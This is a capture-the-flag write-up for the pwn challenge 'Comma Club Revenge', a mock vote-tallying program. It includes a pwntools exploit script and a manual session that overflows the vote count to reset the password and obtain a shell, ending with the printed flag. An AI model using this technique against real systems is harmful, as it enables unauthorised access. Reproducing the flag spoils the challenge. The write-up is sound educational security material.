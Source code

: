 Comma Club Revenge
=====================================================

## Info
* Category: pwn
* Point: 500 --> 100
* Description: 
    * We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in North Dakota though.
    * [handout](../handout/)
```
nc comma-club-revenge.chal.hackthe.vote 1337
```

## Solution
[Full writeup in CTFtime](https://ctftime.org/writeup/39634)  
Here is final exploit:
```
from pwn import *
from binascii import *
PATH = './challenge'
ADDR = 'comma-club-revenge.chal.hackthe.vote'
PORT = 1337
elf = context.binary = ELF(PATH)
context.log_level = 'debug'
####
#r = remote(ADDR, PORT)
####
r = process(PATH)
####
# context.terminal = ['wt.exe','wsl.exe']
# r = gdb.debug(args=[elf.path])
###
r.recvuntil(b'> ')
r.sendline(b'1') #add vote option
votes = 1000009
reminder = votes % 584056
reps = votes//584056
for i in range(reps):
    r.recvuntil(b'> ')
    r.sendline(b'1') #select candidate
    r.recvuntil(b'> ')
    r.sendline(b'584056') #add votes
r.recvuntil(b'> ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(str(reminder).encode()) #add rest of votes
r.recvuntil(b'> ')
r.sendline(b'3') #quit
r.recvuntil(b'> ')
r.sendline(b'2') #print votes
r.recvuntil(b'> ')
r.sendline(b'3') #end vote
r.recvuntil(b'> ')
r.sendline(b'Total') #password
r.interactive() #shell
```
Also program can be exploited like this:
```
Welcome to the Wyoming Vote Tallying Software
Presented by Jeff!
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 1
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500009
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500000
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 3
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 2
password change sucessful.

Candidate cannot have more votes than the population of Wyoming (584057).
Resetting vote count to 0.
**********************************************************************
* Candidate: Wilfred J Lewis - S                                     *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

**********************************************************************
* Candidate: Jeanette D Westcott - T                                 *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 3
Please enter the password
> Total
Correct!
Voting is now closed! The winner is Wilfred J Lewis with 0 votes!
This program will now exit.
cat flag
flag{W3lc0Me_t0_TH3_gr34t3r_th4N_0n3_c0Mm4_c1Ub}
```
--> Flag: `flag{W3lc0Me_t0_TH3_gr34t3r_th4N_0n3_c0Mm4_c1Ub}`